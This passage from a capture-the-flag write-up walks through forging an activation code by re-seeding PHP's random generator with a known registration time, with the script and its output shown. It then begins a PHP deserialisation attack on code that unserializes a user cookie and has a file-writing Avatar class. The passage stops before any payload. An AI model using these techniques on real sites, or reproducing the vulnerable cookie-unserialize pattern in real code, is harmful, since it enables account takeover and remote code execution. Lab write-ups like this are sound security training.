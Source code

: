 Notice that there's a specific time specified by the machine. Perhaps we can just use this time to generate our activation cookie and then head to `activate.php` which asks for a `code` parameter. So, we can first copy the code used to generate the `activation_code` parameter.

Then, we can change the usage of `time()` to `strtotime('Wed, 11 Jan 2023 04:41:37 GMT')`, which is the time I registered a new account. The end script and output looks like this:

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";

srand(strtotime('Wed, 11 Jan 2023 04:41:37 GMT'));
//echo time();
echo "\n";
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo $activation_code;


$ php code.php       
vmsQdLZ9v5aUqAiUalTmt5CYnIxqrvpF
```

Afterwards, we use this `token` variable at `activate.php`.

<figure><img src="../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just login as the user.&#x20;

### PHP Deserialisation

When reading the `utils.php` code some more, I found a few interesting bits. First is a hint to use deserialisation to exploit the machine, and a class called `Avatar` to exploit it with.

{% code title="utils.php" %}
```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

# Avatar Class elsewhere with f
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
```